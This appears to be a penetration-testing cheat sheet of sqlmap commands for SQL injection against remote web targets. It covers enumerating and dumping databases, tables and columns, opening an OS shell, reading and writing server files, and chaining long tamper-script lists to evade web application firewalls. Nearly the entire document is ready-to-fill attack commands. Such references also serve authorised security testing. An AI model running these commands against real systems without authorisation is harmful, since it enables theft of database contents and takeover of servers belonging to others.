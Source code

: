 # SQLMAP

% sql injection
#plateform/linux #target/remote #cat/ATTACK/INJECTION  #port/80 #port/443 #port/8080 #port/8443

## SQLMap - Enumerate Databases
```
sqlmap -u <url> --dbs
```

## SQLMap - Enumerate Tables
```
sqlmap -u <url> -D <database_name> --tables
```

## SQLMap - Enumerate Columns
```
sqlmap -u <url> -D <database_name> -T <table_name> --columns
```

## SQLMap - Dump Data
```
sqlmap -u <url> -D <database_name> -T <table_name> -C <column_names> --dump
```

## SQLMap - List Databases
```
sqlmap -u <url> --dbs
```

## SQLMap - List Tables
```
sqlmap -u <url> -D <db> --tables
```

## SQLMap - Dump a Table
```
sqlmap -u <url> -D <db> -T <table> --dump
```

## SQLMap - List Columns of a Table
```
sqlmap -u <url> -D <db> -T <table> --columns
```

## SQLMap - Dump Specific Columns from a Table
```
sqlmap -u <url> -D <db> -T <table> -C <c1>,<c2> --dump
```

## SQLMap - Get OS Shell
```
sqlmap -u <url> --os-shell
```

## SQLMap - File Read
```
sqlmap -u <url> --file-read=<remote_file>
```

## SQLMap - File Write
```
sqlmap -u <url> --file-write=<local_file> --file-dest=<remote_path_destination>
```

## SQLMap - Classic GET Request
```
sqlmap -u <url>
```

## SQLMap - Classic POST Request
```
sqlmap -u <url> --data="<params>"
```

## SQLMap - GET Request with Cookie
```
sqlmap -u <url> --cookie=<cookie>
```

## SQLMap - Use Request File
```
sqlmap -r <request_file>
```

## SQLMap - Classic with Tamper Scripts
```
sqlmap -u '<url>' --tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## SQLMap - Hardcore Scan
```
sqlmap -u '<url>' --level=5 --risk=3 -p '<parameter>' --tamper=apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,bluecoat,chardoubleencode,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,randomcomments,securesphere,space2comment,space2dash,space2hash,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,sp_password,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords
```

## SQLMap - MySQL Tamper List
```
sqlmap -u <url> --dbms=MYSQL --tamper=between,charencode,charunicodeencode,equaltolike,greatest,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,sp_password,space2comment,space2dash,space2mssqlblank,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

## SQLMap - MSSQL Tamper List
```
sqlmap -u <url> --dbms=MSSQL --tamper=between,bluecoat,charencode,charunicodeencode,concat2concatws,equaltolike,greatest,halfversionedmorekeywords,ifnull2ifisnull,modsecurityversioned,modsecurityzeroversioned,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2hash,space2morehash,space2mysqldash,space2plus,space2randomblank,unionalltounion,unmagicquotes,versionedkeywords,versionedmorekeywords,xforwardedfor
```